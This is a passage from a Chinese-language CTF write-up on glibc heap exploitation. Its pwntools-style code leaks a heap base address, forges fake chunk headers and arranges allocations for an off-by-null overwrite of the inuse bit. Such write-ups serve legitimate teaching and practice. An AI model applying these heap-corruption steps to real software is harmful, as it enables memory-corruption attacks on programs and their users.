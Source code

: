 ```plain
}
```

### 详细流程

先泄露堆地址

```plain
ru('and this line will make the game easier\n')
heap_base=int(r(14),16)-0x2a0
leak('heap_base ',heap_base)
```

[![](assets/1701606615-08019e34b4dc48bf9b45635639b66058.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213539-dd8480de-83bb-1.png)  
chunk0从fd位置开始伪装，然后后续chunk1和chunk2

```plain
add(0x418,p64(0)+p64(0x1880)+p64(heap_base+0x2c0)+p64(heap_base+0x2c0)) #idx0
add(0x408,'aaaa')
add(0x408,'aaaa')
add(0x408,'aaaa')
add(0x418,'aaaa')
add(0x418,'aaaa') #idx5
add(0x4f8,'bbbb')
add(0x4f8,'bbbb')
```

[![](assets/1701606615-e079b0bd4514d43c58df728a83fbcedd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213616-f36778a2-83bb-1.png)  
用 off by null 改inuse，伪装chunk
